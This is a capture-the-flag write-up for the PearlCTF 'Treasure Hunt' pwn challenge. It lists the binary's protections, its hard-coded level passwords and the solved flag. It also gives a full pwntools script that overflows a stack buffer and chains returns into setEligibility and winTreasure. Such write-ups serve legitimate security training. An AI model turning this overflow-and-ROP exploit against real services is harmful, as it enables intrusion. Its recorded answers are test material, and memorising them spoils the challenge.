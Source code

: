 https://ctftime.org/event/2647

# Treasure Hunt (pwn)

Are you worthy enough to get the treasure? Let's see...

nc treasure-hunt.ctf.pearlctf.in 30008

## Analysis

```bash
$ pwn checksec vuln
[*] '/home/user/ctf/treasure_hunt/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`main` @ `0x4015f4`:

- Calls `enchanted_forest`
- Calls `desert_of_sands`
- Calls `ruins_of_eldoria`
- Calls `caverns_of_eternal_darkness`
- Calls `chamber_of_eternity`

`enchanted_forest` @ `0x4012e0`:

- Checks that you enter the password `whisp3ring_w00ds`

`desert_of_sands` @ `0x401387`:

- Checks that you enter the password `sc0rching_dunes`

`ruins_of_eldoria` @ `0x0040142e`:

- Checks that you enter the password `eldorian_ech0`

`caverns_of_eternal_darkness` @ `0x4014d5`:

- Checks that you enter the password `shadow_4byss`

`chamber_of_eternity` @ `0x40157c`:

- `fgets(local_48, 500, stdin)`
    - This allows us to ROP

`setEligibility` @ `0x40126c`:

- Sets `eligible` @ `0x404089` equal to `1`

`winTreasure` @ `00401207`:

- Writes the flag to `stdout` if `eligible` is not equal to zero

## Solution

1) Supply the passwords for each level
2) Supply a ROP chain to call `setEligibility` and then `winTreasure`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./vuln", checksec=False)
context.binary = elf

##p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("treasure-hunt.ctf.pearlctf.in", 30008)

p.sendlineafter(b"proceed: ", b"whisp3ring_w00ds")
p.sendlineafter(b"proceed: ", b"sc0rching_dunes")
p.sendlineafter(b"proceed: ", b"eldorian_ech0")
p.sendlineafter(b"proceed: ", b"shadow_4byss")

p.readuntil(b"win:- ")

payload = b""
payload += b"A" * 0x48
payload += p64(elf.sym["setEligibility"])
payload += p64(elf.sym["winTreasure"])
p.sendline(payload)

p.readuntil(b"GGs\n")

print(p.readuntil(b"}").decode()) # pearl{k33p_0n_r3turning_l0l}
```

## Flag
`pearl{k33p_0n_r3turning_l0l}`

smiley 2025/03/07
